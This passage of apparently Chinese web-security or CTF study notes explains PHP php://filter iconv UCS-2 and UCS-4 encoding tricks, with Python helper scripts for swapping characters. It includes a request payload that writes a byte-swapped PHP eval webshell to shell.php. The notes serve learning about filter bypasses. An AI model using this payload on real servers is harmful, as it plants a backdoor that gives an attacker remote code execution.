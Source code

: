 #### （1）ucs-2

对目标字符串进行2位一反转，也就是说，字符串的数目得是偶数。不然就会被截断。可以去这个里面去看看工具，很多很偏门的工具，虽然我没找到在线的，但是我让chatgpt生成了一个脚本。

[https://onlinetexttools.com/convert-unicode-to-ucs2](https://onlinetexttools.com/convert-unicode-to-ucs2)

```python
def swap_pairs(text):
    # 对输入字符串中的每两个字符进行位置互换
    swapped_text = ""
    for i in range(0, len(text), 2):
        # 逐对提取字符并交换位置
        pair = text[i:i+2]
        swapped_pair = pair[1] + pair[0]  # 交换位置
        swapped_text += swapped_pair
    return swapped_text

def main():
    text = input("Enter the text to encode using UCS-2: ")
    if len(text) % 2 == 0:  # 检查字符串长度是否为偶数
        swapped_text = swap_pairs(text)
        print("UCS-2 encoded text:", swapped_text)
    else:
        print("Input string length must be even. Current character count:", len(text))

if __name__ == "__main__":
    main()

```

这个时候用到的过滤器是`convert.iconv.UCS-2LE.UCS-2BE` ,

姿势：

```url
file=php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=shell.php&content=?<hp pe@av(l_$OPTSx[)]?;;>
```

#### (2)ucs-4

对目标字符串进行4位一反转，也就是说，字符串的数目得是4的倍数。不然就会被截断。脚本给上

```php
def swap_quads(text):
    # 对输入字符串中的每四个字符进行位置翻转
    swapped_text = ""
    for i in range(0, len(text), 4):
        # 逐四个提取字符并翻转位置
        quad = text[i:i+4]
        swapped_quad = quad[::-1]  # 翻转位置
        swapped_text += swapped_quad
    return swapped_text

def main():
    text = input("Enter the text to encode using UCS-4: ")
    if len(text) % 4 == 0:  # 检查字符串长度是否为4的倍数
        swapped_text = swap_quads(text)
        print("UCS-4 encoded text:", swapped_text)
    else:
        print("Input string length must be a multiple of 4. Current character count:", len(text))

if __name__ == "__main__":
    main()

```
